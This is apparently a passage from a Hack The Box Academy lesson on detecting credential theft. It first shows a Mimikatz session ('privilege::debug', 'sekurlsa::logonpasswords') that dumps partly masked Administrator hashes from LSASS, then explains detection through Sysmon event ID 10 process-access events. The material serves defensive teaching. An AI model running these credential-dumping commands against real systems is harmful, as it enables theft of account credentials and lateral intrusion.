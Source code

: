 The attack can be executed as follows.

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( [email protected] )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( [email protected] )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :

```

As we can see, the output of the "sekurlsa::logonpasswords" command provides powerful insights into compromised credentials.

To detect this activity, we can rely on a different Sysmon event. Instead of focusing on DLL loads, we shift our attention to process access events. By checking `Sysmon event ID 10`, which represents "ProcessAccess" events, we can identify any suspicious attempts to access LSASS.

![Event ID 10: ProcessAccess details process access events for detecting hacking tools targeting processes like Lsass.exe for credential theft.](https://academy.hackthebox.com/storage/modules/216/image32.png)![Sysmon Event 10: Process accessed, SourceImage AgentEXE.exe, TargetImage lsass.exe, SourceUser DESKTOP-R4PEEIF\waldo, TargetUser NT AUTHORITY\SYSTEM.](https://academy.hackthebox.com/storage/modules/216/image33.png)
